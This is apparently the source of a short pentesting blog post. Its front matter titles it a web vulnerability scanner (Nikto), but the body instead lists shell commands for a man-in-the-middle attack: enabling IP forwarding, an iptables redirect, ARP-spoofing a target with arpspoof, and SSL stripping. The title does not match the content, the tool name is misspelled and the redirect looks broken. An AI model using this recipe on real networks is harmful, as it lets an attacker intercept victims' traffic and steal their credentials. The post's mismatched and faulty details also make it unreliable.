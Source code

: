```yaml
---
layout: post
title: Web Vulnerability Scanner
categories: [Pentesting]
tags: [Kali, Linux]
description: Nikto
fullview: true
comments: true
---
```


{% highlight yaml %}
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 80
$ arpspoof -i wlan0 -t IP_TARGET ROUTE_IP
$ ssltrip -l 80
{% endhighlight %}
